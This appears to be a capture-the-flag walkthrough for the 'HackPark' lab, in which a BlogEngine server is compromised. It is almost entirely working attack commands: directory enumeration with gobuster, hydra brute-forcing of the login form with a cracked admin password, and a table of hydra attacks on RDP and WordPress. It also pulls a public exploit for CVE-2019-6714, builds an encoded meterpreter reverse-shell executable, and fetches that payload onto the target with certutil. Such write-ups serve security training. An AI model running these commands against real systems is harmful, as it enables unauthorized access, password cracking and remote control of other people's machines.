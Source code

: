 # HackPark

## Task2 

Finding login directory with gobuster

```bash
gobuster dir -u http://Target_IP/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

The login page is located at http://ip/admin.
To bruteforce the account we need to use hydra

```bash
hydra -v -l admin -P /usr/share/wordlists/rockyou.txt [machineIP] http-post-form "/Account/login.aspx:__VIEWSTATE=%2BzSkE5rKklYx2evyff1oZJyuSWT7%2FP%2BrwCqOuY9eQFnN3I9b9H%2FemK0b4edjD%2BX4D0kYN6MJXUIltXwXt0PReeyBxoseUQg%2BlNpW6CHIGWNzl%2FGSvdwSZX179PJ%2FI3%2F64LNM7KzKj9sc4BMO83WdCE0KH%2FPjXAKd4RAQ7poy1tOiO7cd&__EVENTVALIDATION=8UPWUPAn6s7hJvO0Pl8kCCO3NAmIgs7nlpsgIlY%2FBUKl7fwtvPmUalPJ5PygYkVuz1H356PzRXwi%2FHQ3z8iJpgXHs8%2BloBQ4qlIePP6FdcvcR2qoLptuS0C5xNkNhrzvN5IJshWQx%2BF3kjK4PfMhuSyiPjbKZA2aFsYrqvz5b2BHveGR&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed"
```


```bash
USER=admin
PASS=1qaz2wsx
```

Other hydra command:

| Command                                                                                         | Description                                                                                              |
|-------------------------------------------------------------------------------------------------|----------------------------------------------------------------------------------------------------------|
| `hydra -P <wordlist> -v <ip> <protocol>`                                                        | Brute force against a protocol of your choice                                                           |
| `hydra -v -V -u -L <username list> -P <password list> -t 1 -u <ip> <protocol>`                  | You can use Hydra to bruteforce usernames as well as passwords. It will loop through every combination in your lists. (-vV = verbose mode, showing login attempts) |
| `hydra -t 1 -V -f -l <username> -P <wordlist> rdp://<ip>`                                       | Attack a Windows Remote Desktop with a password list.                                                   |
| `hydra -l <username> -P <password list> $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'` | Craft a more specific request for Hydra to brute force.                                                 |
## Task3 

```bash
searchsploit blogengine
searchsploit -m 46353
cp 46353.cs PostView.ascx

```

CVE-2019-6714


## Task4 

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o shell.exe

python3 -m http.server

msfconsole
>use exploit/multi/handler
>set PAYLOAD windows/meterpreter/reverse_tcp
>set LHOST your-thm-ip
>set LPORT listening-port
>run
```

```cmd 
certutil -urlcache -split -f http://Target_IP:8000/shell.exe C:\Windows\Temp\shell.exe

```

